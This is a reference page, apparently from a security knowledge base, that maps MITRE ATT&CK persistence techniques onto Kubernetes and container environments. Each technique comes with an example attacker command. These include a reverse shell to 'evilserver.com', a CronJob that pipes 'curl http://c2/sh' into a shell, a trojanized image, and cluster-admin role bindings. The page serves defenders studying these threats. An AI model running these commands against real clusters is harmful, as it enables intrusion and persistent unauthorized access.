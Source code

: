 # Persistence

### **Persistence Techniques in Containerized Environments**

In Kubernetes and containerized infrastructures, adversaries use persistence techniques to maintain long-term access beyond initial compromise. This includes creating rogue service accounts, abusing cluster roles, implanting internal container images, and scheduling malicious workloads using orchestration features. Left unchecked, these footholds can survive pod restarts, node reboots, or even partial cluster recovery.

#### Account Manipulation → **Additional Container Cluster Roles (T1098.004)**

**Description**: Modify or assign elevated roles to accounts within the cluster to retain privileged access.

**Container Example**:

*   An attacker with initial `kubectl` access adds their identity to the `cluster-admin` group:

    ```bash
    kubectl create clusterrolebinding attacker-admin --clusterrole=cluster-admin --user attacker@corp.com
    ```
* Modify service accounts used by default deployments to bind high-privilege ClusterRoles.
*   Abuse `kubectl patch` or raw API requests to escalate permissions:

    ```bash
    kubectl patch clusterrolebinding system:controller:job-controller -p '{"subjects":[{"kind":"User","name":"attacker"}]}'
    ```

#### Create Account → **Local Account (T1136.001)**

**Description**: Create local accounts inside containers or container hosts to maintain control.

**Container Example**:

*   If container runs in privileged mode or via Docker, attacker escapes to host and creates a new Linux user:

    ```bash
    bashCopyEdituseradd attacker && echo "attacker:Password123" | chpasswd
    ```
* Modify `/etc/passwd` inside writable containers or sidecars.
* For managed K8s nodes, attacker may create user on exposed cloud VM (e.g., via SSH).

#### 🛠️ Create or Modify System Process → **Container Service (T1543.003)**

**Description**: Create or alter services that automatically restart malicious containers or pods.

**Container Example**:

*   Deploy a `Deployment` or `DaemonSet` configured to always restart:

    ```yaml
    yamlCopyEditrestartPolicy: Always
    ```
*   Replace or patch an existing controller to run attacker code, e.g.:

    ```bash
    bashCopyEditkubectl set image deployment/metrics-server metrics=attacker/metrics:latest
    ```
* Abuse `initContainers` to execute pre-persistence hooks before workload starts.

#### External Remote Services (T1133)

**Description**: Maintain access through external connections like SSH, VPN, or exposed APIs.

**Container Example**:

*   Drop a reverse shell in a container using `socat`, `bash`, or `nc`:

    ```bash
    bash -i >& /dev/tcp/evilserver.com/443 0>&1
    ```
*   Install and configure SSH server in containers that normally don’t support it:

    ```bash
    apk add openssh && /etc/init.d/sshd start
    ```
* Abuse cloud access (GCP/AWS metadata APIs) to maintain persistent API tokens.

#### Implant Internal Image

**Description**: Push a backdoored container image to a trusted internal registry for use in future deployments.

**Container Example**:

*   Attacker builds and uploads a trojanized image:

    ```dockerfile
    DockerfileCopyEditFROM nginx
    ADD shell.sh /tmp/shell.sh
    CMD ["bash", "/tmp/shell.sh"]
    ```
*   Pushes to an internal registry:

    ```bash
    bashCopyEditdocker tag evil-image registry.local/internal/nginx
    docker push registry.local/internal/nginx
    ```
* Waits for CI/CD or naive users to deploy it.

#### Scheduled Task/Job → **Container Orchestration Job (T1053.007)**

**Description**: Use Kubernetes `CronJob` to schedule malicious command execution.

**Container Example**:

*   Drop a `CronJob` in the cluster to curl down payloads or beacon C2:

    ```yaml
    yamlCopyEditapiVersion: batch/v1
    kind: CronJob
    metadata:
      name: sleeper-agent
    spec:
      schedule: "*/15 * * * *"
      jobTemplate:
        spec:
          template:
            spec:
              containers:
              - name: sleeper
                image: busybox
                command: ["/bin/sh", "-c", "curl http://c2/sh | sh"]
              restartPolicy: OnFailure
    ```
* Resilient method of ensuring re-entry if other persistence mechanisms fail.

#### Valid Accounts → **Default Accounts (T1078.001)**

**Description**: Abuse default service accounts or credentials that were never rotated or secured.

**Container Example**:

* Use default Kubernetes service account tokens (`/var/run/secrets/kubernetes.io/serviceaccount/token`) for API access.
* Exploit Helm charts or apps deployed with default admin:admin credentials (e.g., dashboards, databases).

#### Valid Accounts → **Local Accounts (T1078.003)**

**Description**: Use previously stolen or created local user accounts on host/container for persistence.

**Container Example**:

* Log in as a previously created user (see `T1136.001`).
* Install SSH keys on `/root/.ssh/authorized_keys` if host filesystem is mounted.

#### 🧠 Summary Table

| Technique                | Sub-Technique               | Container Use Case                                          |
| ------------------------ | --------------------------- | ----------------------------------------------------------- |
| Account Manipulation     | Additional Cluster Roles    | `kubectl create clusterrolebinding`                         |
| Create Account           | Local Account               | `useradd`, modified `/etc/passwd` in container or host      |
| Modify System Process    | Container Service           | Deploy persistent DaemonSets, restart-on-failure containers |
| External Remote Services | —                           | Reverse shell, SSH, exposed APIs                            |
| Implant Internal Image   | —                           | Trojan image in internal registry                           |
| Scheduled Task           | Container Orchestration Job | Malicious CronJob via `kubectl apply`                       |
| Valid Accounts           | Default Accounts            | Default K8s tokens, Helm admin creds                        |
| Valid Accounts           | Local Accounts              | SSH access with known passwords or keys                     |
